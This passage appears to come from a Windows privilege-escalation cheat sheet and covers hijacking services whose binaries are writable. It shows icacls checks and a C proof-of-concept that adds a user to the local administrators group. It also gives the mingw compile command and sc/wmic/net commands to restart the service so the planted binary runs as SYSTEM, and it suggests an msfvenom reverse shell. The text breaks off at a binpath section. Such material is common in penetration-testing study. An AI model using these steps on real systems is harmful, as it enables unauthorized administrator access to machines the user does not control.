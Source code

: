     # Start and stop service
    sc stop <service-name>
    sc start <service-name>

    # Reboot
    shutdown /r /t 0

## Service Permissions

What we are interested in is binaries that have been installed by the user. In the output you want to look for BUILTIN\Users:(F). Or where your user/usergroup has (F) or (C) rights.

    icacls "C:\path\to\file.exe"

Example Output:

    C:\path\to\file.exe
    BUILTIN\Users:F
    BUILTIN\Power Users:C
    BUILTIN\Administrators:F
    NT AUTHORITY\SYSTEM:F

That means your user has write access. So you can just rename the .exe file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

```c
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```
We then compile it with `mingw` like this:

    i686-w64-mingw32-gcc winexp.c -lws2_32 -o exp.exe

Move the exploit binary in place of the original binary file.

Now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using wmic or net the following way:

    wmic service NAMEOFSERVICE call startservice
    net stop [service name] && net start [service name].

The binary should now be executed in the SYSTEM or Administrator context.

### Reconfiguring the service binpath

This works by replacing 'binpath' property.
